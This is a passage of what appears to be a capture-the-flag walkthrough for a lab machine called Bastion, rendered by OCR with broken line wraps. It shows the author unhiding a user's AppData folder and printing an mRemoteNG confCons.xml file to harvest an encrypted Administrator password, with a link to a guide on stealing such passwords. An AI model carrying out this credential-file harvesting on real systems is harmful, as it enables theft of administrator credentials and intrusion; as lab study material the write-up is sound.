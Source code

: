 	22-02-2019  15:01    <DIR>          .                                                                                                                                                                 
	22-02-2019  15:01    <DIR>          ..                                                                                                                                                                
	16-07-2016  15:23    <DIR>          Common Files                                                                                                                                                      
	23-02-2019  10:38    <DIR>          Internet Explorer                                                                                                                                                 
	16-07-2016  15:23    <DIR>          Microsoft.NET                                                                                                                                                     
	22-02-2019  15:01    <DIR>          mRemoteNG                                                                                                                                                         
	23-02-2019  11:22    <DIR>          Windows Defender                                                                                                                                                  
	23-02-2019  10:38    <DIR>          Windows Mail                                                                                                                                                      
	23-02-2019  11:22    <DIR>          Windows Media Player                                                                                                                                              
	16-07-2016  15:23    <DIR>          Windows Multimedia Platform                                                                                                                                       
	16-07-2016  15:23    <DIR>          Windows NT                                                                                                                                                        
	23-02-2019  11:22    <DIR>          Windows Photo Viewer                                                                                                                                              
	16-07-2016  15:23    <DIR>          Windows Portable Devices                                                                                                                                          
	16-07-2016  15:23    <DIR>          WindowsPowerShell 
	
	
	We see mRemoteNG , remote connection manager for Windows which uses XML file to save passwords in encrypted format
	More info here : http://cosine-security.blogspot.com/2011/06/stealing-password-from-mremote.html
	
	
	Since appdata folder is hidden  enter "attrib -s -h C:\Users\myusername\AppData" ,  
	https://www.windows10themes.net/guides/how-to-view-the-appdata-folder-in-windows-10/
	
14. l4mpje@BASTION C:\Users\Public>attrib -s -h C:\Users\L4mpje\AppData 
15. l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>type confCons.xml                                                                                                                            
	<?xml version="1.0" encoding="utf-8"?>                                                                                                                                                                
	<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GC                                                                      
	M" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0                                                                      
	oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">                                                                                                                                                            
	    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                                      
	me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                                      
	 Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" Rend                                                                      
	eringEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeo                                                                      
	ut="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" Disp                                                                      
	layThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" R                                                                      
	edirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" Redire                                                                      
	ctKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEn                                                                      
	coding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPa                                                                      